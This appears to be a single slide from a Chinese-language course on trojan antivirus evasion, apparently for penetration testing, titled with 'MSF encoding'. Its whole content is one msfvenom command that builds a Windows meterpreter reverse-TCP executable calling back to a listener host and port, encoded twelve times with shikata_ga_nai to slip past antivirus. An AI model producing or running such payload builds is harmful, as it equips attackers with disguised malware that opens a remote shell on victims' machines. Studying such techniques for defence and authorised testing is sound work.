

木马免杀——MSF编码

使用x86/shikata_ga_nai编码器：
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.47.130 lport=5555  -e x86/shikata_ga_nai -i 12 -f exe -o /root/test_pro.exe